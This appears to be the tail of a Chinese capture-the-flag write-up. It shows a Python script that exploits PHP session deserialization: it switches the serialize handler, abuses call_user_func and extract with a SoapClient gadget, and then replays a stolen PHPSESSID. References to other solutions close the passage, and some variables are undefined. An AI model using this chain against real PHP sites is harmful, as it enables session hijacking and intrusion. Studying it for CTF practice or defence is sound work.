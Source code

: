 ```javascript
data = {
    'serialize_handler': "php_serialize"
}
headers = {
    'Cookie': 'PHPSESSID=ddddddddd',
    'Content-Type': 'application/x-www-form-urlencoded'
}
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'https://127.0.0.1:8080'
}

url_exp = url + payload.format(step_one_f, step_one_name)
r = req.post(url_exp, data=data, headers=headers)# proxies=proxies)
text = r.text
print(re.findall(r'(?<=<\/code>)[\W\w]*', text))

step_two_f = "extract"
step_two_name = "SoapClinet"
data = {
    'b': 'call_user_func'
}
url_exp = url + payload.format(step_two_f, step_two_name)

r = req.post(url_exp, data=data, headers=headers)  # proxies=proxies)
r = req.post(url_exp, data=data, headers=headers)  # proxies=proxies)
text=re.findall('string\(26\)[\w\W]+?(?=\[1\])', r.text)[0]
SESSIONID=text.split('"')[1]
headers={
    'Cookie':"PHPSESSID={}".format(SESSIONID)
}
r=req.get(url,headers=headers)
print(r.text)

```

参考链接

Smi1e师傅题解

反序列化之PHP原生类的利用

PHP中SESSION反序列化机制